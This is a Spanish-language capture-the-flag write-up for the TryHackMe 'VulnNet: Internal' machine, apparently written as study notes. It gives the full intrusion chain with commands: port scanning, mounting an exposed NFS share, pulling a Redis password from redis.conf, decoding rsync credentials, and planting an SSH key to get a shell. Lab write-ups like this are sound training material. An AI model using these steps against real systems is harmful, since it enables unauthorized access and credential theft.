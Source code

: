 
# SCAN

```
PORT      STATE    SERVICE
22/tcp    open     ssh
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
873/tcp   open     rsync
2049/tcp  open     nfs
6379/tcp  open     redis
9090/tcp  filtered zeus-admin
41849/tcp open     unknown
46121/tcp open     unknown
50201/tcp open     unknown
50693/tcp open     unknown
55157/tcp open     unknown
```
Resumen:
1. Servidor samba: 445
2. Servidor nfs: 2049
3. Servidor redis: 6379
4. Servidor rsync: 873

## SAMBA
Existe un archivo compartido (/shares) dentro del cual encontramos el primer flag

## REDIS
Es una base de datos no relacional (non-sql) con la estructura basica de las bases de datos no relacionales <key:value>. Necesitamos para
entrar un password que no tenemos

## NFS
Hay un recurso compartido nfs que es /opt/conf/. Podemos montar este directorio en nuestro sistema:
>$ sudo mount -t nfs vulnnet.thm:/opt/conf/  /tmp/mount

Una vez montado accedemos al directorio redis donde existe un fichero **redis.conf**, donde encontramos la contraseña para acceder a redis:
> B65Hx562F@ggAZ@F

## REDIS WITH PASS
Tras entrar en redis obtenemos
redis-cli> keys *
```
┌──(kali㉿kali)-[~]
└─$ redis-cli -h 10.10.21.113 -a B65Hx562F@ggAZ@F
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.21.113:6379> keys *
1) "tmp"
2) "authlist"
3) "internal flag"
4) "int"
5) "marketlist"
```
### tmp
Nada interesante
### authlist
Obtenemos este codigo que parece ser un code64:
> QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==

Decodificado dice los siguiente:
> Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v


### internal flag
Obtenemos el segundo flag
THM{ff8e518addbbddb74531a724236a8221}

## RSYNC
Podemos copiar nuestra clave publica en el .ssh de la maquina target:
> rsync authorized_keys rsync-connect@vulnnet.thm::files/sys-internal/.ssh
Password: Hcg3HP67@TW@Bc72v

y despues logearnos en ssh con nuestra clave privada

──(kali㉿kali)-[~/boxes/vul-int]
└─$ ssh -i id_rsa sys-internal@vulnnet.thm 
y ya estamos en la maquina target con el usuario **sys-internal**







